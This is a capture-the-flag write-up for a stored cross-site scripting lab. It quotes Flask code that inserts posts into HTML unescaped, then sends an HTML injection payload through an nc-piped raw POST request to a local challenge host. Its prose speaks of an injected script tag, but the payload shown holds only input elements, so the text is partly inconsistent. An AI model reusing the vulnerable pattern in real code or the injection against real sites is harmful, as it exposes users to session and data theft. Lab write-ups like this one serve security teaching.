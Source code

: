 # 🛡️ Web — XSS1 — Writeup

## 📜 Challenge Overview

We are given a Flask-based web app running on `challenge.localhost:80`. The app allows anonymous posting using a form, and displays submitted posts. There's a `/` route handling both `GET` and `POST` requests.

Here’s the relevant part of the server source:

```python
@app.route("/", methods=["POST"])
def challenge_post():
    content = flask.request.form.get("content", "")
    db.execute("INSERT INTO posts VALUES (?)", [content])
    return flask.redirect(flask.request.path)


@app.route("/", methods=["GET"])
def challenge_get():
    page = "<html><body>\nWelcome to pwnpost, the anonymous posting service. Post away!\n"
    page += "<form method=post>Post:<input type=text name=content><input type=submit value=Submit></form>\n"

    for post in db.execute("SELECT content FROM posts").fetchall():
        page += "<hr>" + post["content"] + "\n"

    return page + "</body></html>"
```
The content from the form is directly inserted into the page without any sanitization — this is a classic Stored XSS vulnerability.

---

## Exploitation Steps

### 1.Craft a malicious payload
Inject a `<script>` tag so that when the victim visits /, it gets executed.

### 2.Send POST request with payload
Use nc to simulate a browser POST request:

```bash
printf 'POST / HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:40\r\n\r\ncontent=<input type="text">
;<input type="text">;<input type="text">' | nc challenge.localhost 80
```
This inserts the malicious JavaScript into the database.

### 3.Trigger victim to visit
Now simulate the victim visiting the site:
```bash
/challenge/victim
```
The victim browser will execute the injected `<script>`.

---

## Flag
After executing the above steps, the victim script will trigger, and the flag will be printed in the terminal running the challenge service.
Run the victim binary like this:
```bash
/challenge/victim
```

Then the flag will be revealed if the XSS was successful.
```
pwn.college{example_flag_value}
```

---

